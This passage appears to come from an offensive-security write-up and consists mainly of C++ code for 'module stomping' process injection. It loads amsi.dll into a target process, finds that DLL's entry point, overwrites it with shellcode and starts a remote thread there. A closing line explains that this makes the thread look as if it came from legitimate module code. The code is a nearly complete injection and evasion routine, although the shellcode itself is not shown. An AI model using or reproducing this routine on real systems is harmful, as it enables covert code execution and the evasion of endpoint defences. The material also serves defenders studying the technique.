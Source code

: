 ```cpp
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)moduleToInject, sizeof moduleToInject, NULL);
	PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	HANDLE dllThread = CreateRemoteThread(processHandle, NULL, 0, threadRoutine, remoteBuffer, 0, NULL);
	WaitForSingleObject(dllThread, 1000);
	
	// find base address of the injected benign DLL in remote process
	EnumProcessModules(processHandle, modules, modulesSize, &modulesSizeNeeded);
	modulesCount = modulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < modulesCount; i++)
	{
		remoteModule = modules[i];
		GetModuleBaseNameA(processHandle, remoteModule, remoteModuleName, sizeof(remoteModuleName));
		if (std::string(remoteModuleName).compare("amsi.dll") == 0) 
		{
			std::cout << remoteModuleName << " at " << modules[i];
			break;
		}
	}

	// get DLL's AddressOfEntryPoint
	DWORD headerBufferSize = 0x1000;
	LPVOID targetProcessHeaderBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
	ReadProcessMemory(processHandle, remoteModule, targetProcessHeaderBuffer, headerBufferSize, NULL);

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)targetProcessHeaderBuffer;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)targetProcessHeaderBuffer + dosHeader->e_lfanew);
	LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)remoteModule);
	std::cout << ", entryPoint at " << dllEntryPoint;

	// write shellcode to DLL's AddressofEntryPoint
	WriteProcessMemory(processHandle, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);
	
	// execute shellcode from inside the benign DLL
	CreateRemoteThread(processHandle, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);
	
	return 0;
}
```



The main advantage of this technique is to start the thread from within a module, so that it appears to originate
from legitimate executable code. A visual example below:
